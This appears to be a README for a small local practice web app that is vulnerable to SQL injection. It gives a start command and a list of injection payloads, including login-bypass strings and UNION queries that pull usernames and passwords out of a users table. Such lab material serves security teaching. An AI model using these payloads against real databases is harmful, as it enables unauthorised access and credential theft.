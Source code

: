 ## Get started
```bash
python3 main.py
```
Go to `http://localhost:8080`

## Possible SQL injections
- `user1' or name='user2' or name='user3'--`
- `' or 1=1--`
- `' union select 1--`
- `' union select password from users--`
- `' union select name || ':' || password from users--`

